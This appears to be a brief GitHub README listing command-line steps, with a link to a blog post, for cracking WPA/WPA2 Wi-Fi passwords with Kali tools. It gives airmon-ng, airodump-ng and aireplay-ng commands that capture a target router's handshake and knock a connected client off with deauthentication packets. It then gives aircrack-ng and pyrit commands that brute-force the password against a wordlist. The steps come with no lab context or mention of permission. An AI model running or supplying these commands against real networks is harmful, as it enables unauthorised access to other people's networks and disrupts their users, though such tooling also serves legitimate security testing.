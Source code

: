 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -i /mnt/wordlist.txt import_passwords
* pyrit -e mon0 create_essid
* #pyrit eval
* pyrit batch
